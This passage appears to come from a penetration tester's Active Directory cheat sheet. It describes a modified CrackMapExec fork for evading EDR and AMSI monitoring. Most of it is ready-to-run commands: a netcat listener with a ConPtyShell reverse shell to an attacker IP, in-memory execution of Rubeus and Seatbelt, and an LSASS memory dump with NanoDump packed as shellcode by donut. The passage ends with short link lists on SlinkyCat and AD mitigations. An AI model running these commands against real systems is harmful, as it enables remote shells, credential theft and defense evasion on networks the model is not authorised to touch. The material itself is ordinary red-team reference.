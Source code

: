 Bypass execution restrictions of EDRs monitoring for `WmiPrvSE.exe` misbehavior with custom switches (see [dotnetassembly](https://github.com/snovvcrash/CrackMapExec/tree/dotnetassembly) branch).

Get the dependencies and stuff:

```
$ sudo apt install mono-devel
$ git clone --single-branch -b syscalls https://github.com/S4ntiagoP/donut ~/tools/donut && cd ~/tools/donut && make && sudo ln -sv `realpath donut` /usr/local/bin/donut && cd -
$ wget https://github.com/snovvcrash/CrackMapExec/raw/dotnetassembly/cme/data/donut_template.cs -O ~/.cme/donut_template.cs
$ wget https://github.com/snovvcrash/CrackMapExec/raw/dotnetassembly/cme/protocols/smb.py -O ~/.local/pipx/venvs/crackmapexec/lib/python3.10/site-packages/cme/protocols/smb.py
```

Example of invoking a PowerShell module ([ConPtyShell](https://github.com/antonioCoco/ConPtyShell)):

```
$ stty raw -echo; (stty size; cat) | nc -lvnp 1337
$ cme smb 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -x 'Invoke-ConPtyShell.ps1 Invoke-ConPtyShell 10.10.13.37 1337' --amsi-bypass amsi.ps1 --no-output
```

Example of executing a .NET assembly ([Rubeus](https://github.com/GhostPack/Rubeus)):

```
$ cme smb 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -x 'Seatbelt.exe -group=user' --dotnetassembly --dotnetassembly-entrypoint 'Rubeus,Program,MainString' --dotnetassembly-entrypoint-argtype string --amsi-bypass amsi.ps1 --codec cp866
```

Example of converting an unmanaged binary ([NanoDump](https://github.com/helpsystems/nanodump)) to a shellcode with [donut](https://github.com/S4ntiagoP/donut/tree/syscalls), then compiling a .NET self-injector from a template with the shellcode inside and executing it (see [SharpBin2SelfInject](https://gist.github.com/snovvcrash/30bd25b1a5a18d8bb7ce3bb8dc2bae37)):

```
$ cme smb 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -x 'nanodump.exe -w C:\Windows\Temp\lsass.bin' --dotnetassembly --donut
```




## Slinky Cat & OffensiveSysAdmin

- [https://labs.lares.com/introducing-slinkycat/](https://labs.lares.com/introducing-slinkycat/)
- [https://github.com/LaresLLC/SlinkyCat](https://github.com/LaresLLC/SlinkyCat)
- [https://github.com/LaresLLC/OffensiveSysAdmin](https://github.com/LaresLLC/OffensiveSysAdmin)




## Mitigations

Common vulnerabilities & misconfigurations and recommendations:

* [https://www.infosecmatter.com/top-16-active-directory-vulnerabilities/#2-admincount-attribute-set-on-common-users](https://www.infosecmatter.com/top-16-active-directory-vulnerabilities/#2-admincount-attribute-set-on-common-users)
* [https://threadreaderapp.com/thread/1369309701050142720.html](https://threadreaderapp.com/thread/1369309701050142720.html)
* [https://s3cur3th1ssh1t.github.io/The-most-common-on-premise-vulnerabilities-and-misconfigurations/](https://s3cur3th1ssh1t.github.io/The-most-common-on-premise-vulnerabilities-and-misconfigurations/)
* [https://github.com/evilmog/ntlmv1-multi/blob/master/resources/checklist.txt](https://github.com/evilmog/ntlmv1-multi/blob/master/resources/checklist.txt)
